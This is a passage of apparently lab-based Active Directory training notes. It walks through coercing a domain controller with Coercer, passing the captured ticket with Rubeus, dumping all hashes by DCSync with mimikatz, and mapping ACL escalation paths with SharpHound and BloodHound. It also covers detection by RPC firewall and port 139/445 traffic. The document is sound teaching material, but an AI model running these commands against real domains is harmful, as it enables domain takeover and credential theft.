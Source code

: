 `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local`

Now, if we switch to WS001 and look at the continuous output that Rubeus provide, there should be a TGT for DC1 available:

We can use this TGT for authentication within the domain, becoming the Domain Controller. From there onwards, DCSync is an obvious attack (among others).

One way of using the abovementioned TGT is through Rubeus, by passign the ticket for DC$1.

PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...`

Then, a DCSync attack can be executed through mimikatz, essentially by replicating what we did in the DCSync section for all users.

`PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /all "`

*Detection*: The RPC Firewall from [zero networks](https://github.com/zeronetworks/rpcfirewall) is an excellent method of detecting the abuse of these functions and can indicate immediate signs of compromise; however, if we follow the general recommendations to not install third-party software on Domain Controllers then firewall logs are our best chance.

We can see plenty of incoming connections to the DC, followed up by outbound connections from the DC to the attacker machine; this process repeats a few times as Coercer goes through several different functions. All of the outbound traffic is destined for port 445.

Sometimes, when port 445 is blocked, the machine will attempt to connect to port 139 instead, so blocking both ports 139 and 445 is recommended so that the attacker cannot receive any coerced TGTs resulting in dropped traffic on those ports. Which then, can be used for detection as any unexpected dropped traffic to ports 139 or 445 from domain controllers is suspicious.

## Object ACLs
To identify potential abusable ACLs, we will use [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy) to graph the relationships between the objects and [SharpHound](https://github.com/SpecterOps/SharpHound) to scan the environment and pass All to the -c parameter (short version of CollectionMethod):

`PS C:\Users\bob\Downloads> .\SharpHound.exe -c All`

The ZIP file generated by SharpHound can then be visualized in BloodHound. Instead of looking for every misconfigured ACL in the environment, we will focus on potential escalation paths that originate from the user Bob (our initial user, which we had already compromised and have complete control over). Therefore, the following image demonstrates the different access that Bob has to the environment:


Bob has full rights over the user Anni and the computer Server01. Below is what Bob can do with each of these:
![image](https://github.com/user-attachments/assets/e7c5de9f-02ad-468a-b935-bb86f1f2c40b)

Case 1: Full rights over the user Anni. In this case, Bob can modify the object Anni by specifying some bonus SPN value and then perform the Kerberoast attack against it (if you recall, the success of this attack depends on the password's strength). However, Bob can also modify the password of the user Anni and then log in as that account, therefore, directly inheriting and being able to perform everything that Anni can (if Anni is a Domain admin, then Bob would have the same rights).
Case 2: Full control over a computer object can also be fruitful. If LAPS is used in the environment, then Bob can obtain the password stored in the attributes and authenticate as the local Administrator account to this server. Another escalation path is abusing Resource-Based Kerberos Delegation, allowing Bob to authenticate as anyone to this server. Recall that from the previous attack, Server01 is trusted for Unconstrained delegation, so if Bob was to get administrative rights on this server, he has a potential escalation path to compromise the identity of a Domain Controller or other sensitive computer object.
